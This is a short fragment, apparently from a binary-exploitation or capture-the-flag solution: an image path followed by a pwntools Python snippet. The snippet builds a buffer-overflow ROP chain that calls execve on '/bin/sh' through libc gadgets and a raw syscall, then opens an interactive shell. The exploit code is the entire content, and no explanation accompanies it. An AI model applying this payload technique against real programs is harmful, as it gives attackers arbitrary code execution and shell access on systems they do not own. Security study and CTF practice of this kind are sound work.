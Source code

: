 ```python 
payload = b'a'*32+b'b'*8+p64(poprdi)+p64(next(libc.search(b'/bin/sh\x00')))
payload += p64(poprsi)+p64(0)+ p64(poprdx) + p64(0) + p64(0) + p64(poprax)+p64(0x3b)+p64(syscall)
p.sendline(payload)

p.interactive()
```
